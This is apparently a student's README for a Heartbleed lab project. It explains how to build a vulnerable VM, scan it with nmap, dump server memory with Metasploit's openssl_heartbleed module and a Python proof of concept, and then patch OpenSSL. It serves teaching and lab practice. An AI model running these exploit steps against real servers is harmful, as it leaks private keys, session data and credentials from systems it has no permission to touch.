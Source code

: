 
# HeartBleed Vulnerability

by Timur Ozkul

This Heartbleed vulnerability set-up/exploit/bugfix was done for my Msc Cyber Security course in Swansea.

================
###Table of Content
================
###Part 1: Set up
-----
* Disclaimer *
This instruction is for Virtualbox, other hypervisors may be used but the setup might be slightly different.
Two ways of setting it up either us pre existing VM (considerably quicker) or or create Ubuntu 12.04 (This ubuntu version comes with TLS 1.1) and then a web server
------------------------------------------------------------------------------------
###Part 2: Exploit
-----
* Disclaimer *
These instructions use Kali Linux, other Linux OS may be used but might require additional installations.
The square brackets [], indicate that it should be replaced with the appropriate input. Used in bash commands.
I will demonstrate two methods to exploit one with metasploit the other with a python script
------------------------------------------------------------------------------------
###Part 3: Bug Fix
-----

------------------------------------------------------------------------------------


###Part 1: Set up
================

-- Using pre existing VM --
1. Download custom Linux VM file (bee-box.zip) from https://sourceforge.net/projects/bwapp/files/bee-box/bee-box_v1.6.7z/download  
2. On Virtualbox 
	2.1 Click new
	2.2 Name VM anything of your choice
	2.3 For type pick Linux
	2.4 For version pick Ubuntu 64-bit and click next
	2.5 The recommended memory size is fine and click next
	2.6 For Hard disk pick use existing virtual hard disk and pick bee-box.vmdk from downloaded zip and click create
	2.7 Click start
3. Once VM is working go to terminal and use ifconfig command to find the ip address (for use later)
4. On the browser go to http://localhost/bWAPP/login.php
5. Login with username: bee and password: bug
6. On top right under choose your bug find heartbleed vulnerability under A6 and click hack

Now you should have a web server running with the Heartbleed vulnerability on port 8443

-- Creating web server on Ubuntu 12.04 --

1. Download ubuntu12.04 iso from http://www.ubuntu.com/download/alternative-downloads
2. Install OS on a VM (instructions are here: https://ubuntu.com/tutorials/tutorial-install-ubuntu-server)
3. Install Nginx with sudo apt-get install nginx
4. Generate your self-signed ssl key and certificate: 
openssl req -new -x509 -days 365 -sha1 -newkey rsa:1024 
-nodes -keyout heartbleed.key -out heartbleed.crt 
-subj '/O=YourCompany/OU=YourDepartment/CN=www.yoursite.com'
5. Copy your cert to the attacking computer (use sudo update-ca-certificates, update-ca-certificates —refresh)
6. Update your nginx config to add 
  ## SSL
  ssl on;
  ssl_certificate /path/to/your/heartbleed.crt;
  ssl_certificate_key /path/to/your/heartbleed.key;
7. Check the SSL version: openssl version -a
8. Restart nginx server: sudo service nginx restart

------------------------------------------------------------------------------------

###Part 2: Exploit
================

1. Ping the VM that was created in part 1, using the ip address (to check if it can create a communication)
2. Use sudo nmap --script ssl-heartbleed -p [port#] [ip] or sudo nmap --script ssl* -p [port#] [ip]
	(this script checks the SSL version to see if it is vulnerable to Heartbleed)
3. Exploit using Metasploit
	3.1 Run msfconsole on terminal
	3.2 Type: search openssl_heartbleed
	3.3 Type: use openssl_heartbleed
	3.4 Type: set RHOSTS [ip]
	3.5 Type: set RPORT [port]
	3.6 Type: set action SCAN, and type: run (this test of the server is vulnerable to Heartbleed)
	3.7 Type: set action DUMP, and type: run (this will dump the memory leak to bin file)
	3.8 Go to the path of the bin file and type: strings [bin file name] 
	(String command shows only the strings of the dump)
	or strings -n 2 [bin file name] (which sets the min of chars)
4. Exploit using python proof of Concept script by Jared Stafford (jspenguin@jspenguin.org) (comments added by me)
	4.1 Download hbexploit.py & loophbexploitfrom https://github.com/timurozkul/HeartBleed.git
	4.2 On the terminal type: python ./hbexploit.py [ip] -p [port]
		(This will output dump onto the terminal window)
	4.3 Alternatively you can use my personal bash script which can make several heartbeat requests and which appends all the output to one file. Use the --help flag for description (makes use of the hbexploit.py script)

The exploit can gives different results so doing several heartbeat request is useful
------------------------------------------------------------------------------------

###Part 3: Bug Fix
================
1. sudo apt-get update && sudo apt-get upgrade
2. sudo apt-get install openssl
3. To check if it updated run: openssl version -a
4. Re-run attack scripts

———


